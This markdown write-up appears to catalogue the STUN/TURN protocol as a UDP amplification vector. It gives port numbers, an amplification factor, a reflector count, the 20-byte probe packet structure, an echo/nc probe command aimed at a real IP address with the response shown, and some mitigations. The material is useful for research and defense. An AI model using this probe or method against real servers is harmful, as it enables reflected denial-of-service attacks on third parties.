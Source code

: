 # STUN/TURN Open Source Implementations

## Port: 3478, also 8088 + 37833 (Cisco STUN - *thanks Sylvia*)

## Proto: UDP

## Amplification factor: ~3x

## Reflector count: ~185.000 (20/3/2021)

---

- Restund, CoTURN, reTurnServer all implement RFC5389 with advanced features for servers.
- However they suffer from being able to amplify blank 20-byte STUN messages with their version information and other STUN initialization bytes.
- 20-byte STUN packet construction:
```|0 0|     STUN Message Type     |         Message Length        |                         Magic Cookie                          |                     Transaction ID (96 bits)                  |```
  - Message type is encoded into the first 16 bits (2 bytes) and the magic cookie is: `\x21\x12\xa4\x42`
  - The Message itself is not included (we are just sending the 20-byte header) thus the length remains `\x00`. The transaction id (last 12 bytes) is left blank.
  - Read `Structure` documentation below to see how this 20-bytes is constructed in a legitimate use-case.

### Example Request / Response

- Request: 20 bytes

  - `> ~# echo -ne '\x00\x01\x00\x00\x21\x12\xa4\x42\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'|nc -u 3.88.177.39 3478 -w1`

- Response: Avg 100 bytes (differs depending on open source implementation)

  - ASCII: `P!�B �	�������R��+��Y�,��Y�"Coturn-4.5.0.4 'dan Eider'`
  - Raw Bytes: `010100502112a442000000000000000000000000002000080001b10982bef6cc000100080001901ba3ac528e802b000800010d96ac1f59eb802c000800010d97ac1f59eb8022001a436f7475726e2d342e352e302e34202764616e204569646572270000`

### Documentation

- Restund open source project - http://www.creytiv.com/restund.html
- Coturn open source project - https://github.com/coturn/coturn
- Structure for STUN_codec messages - https://docs.rs/stun_codec/0.1.12/stun_codec/struct.Message.html
- STUN RFC - https://tools.ietf.org/html/rfc5389

### Mitigations

- Use STUN over TCP by default.
- Response data for the amplified connection request will always be message type `\xa4\x42` on bytes[7:8].
- Data size is random but srcport 3478 and ASCII `turn` or `STUN` can be sufficient to block.
